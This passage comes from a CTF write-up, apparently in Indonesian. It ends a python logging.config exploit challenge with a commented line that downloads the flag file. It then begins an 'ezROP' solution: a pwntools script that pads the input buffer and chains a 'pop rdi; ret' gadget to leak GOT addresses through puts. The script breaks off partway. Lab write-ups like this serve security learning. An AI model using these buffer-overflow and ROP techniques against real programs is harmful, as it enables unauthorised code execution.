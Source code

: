 ```python
# print(a.download_image(file=f"{flag_txt}"))
```

> Note: payloadnya semiautomatis, jadi perlu di uncomment step by step.

# Refenrence: 
- https://github.com/raj3shp/python-logging.config-exploit
- https://docs.python.org/3/library/logging.config.html

# ezROP
leak address di got menggunakan plt.puts 

```python
from pwn import *
from struct import pack
from Crypto.Util.number import bytes_to_long as btl, long_to_bytes as ltb
import sys

# patch with: pwninit
BINARY = "ezROP_patched"
context.binary = exe = ELF(f"./{BINARY}", checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"

# copy libc.so.6 from docker container
# docker cp --follow-link ezrop:/home/ctf/lib/x86_64-linux-gnu/libc.so.6 ./
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-2.31.so', checksec=False)


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script):
        if not args.RMT:
            attach(self.p, script)

    def send(self, content):
        p = self.p
        p.sendlineafter(b"My friend, what's your name?", content)

    def leak(self, address):
        '''
        leak address menggunakan plt.puts
        '''
        p = self.p
        pay = b''
        pay += b'\x00'
        pay += cyclic(120-len(pay))
        pay += pack("<Q", ROP(exe).find_gadget(['pop rdi', 'ret'])[0])
        pay += pack("<Q", address)
```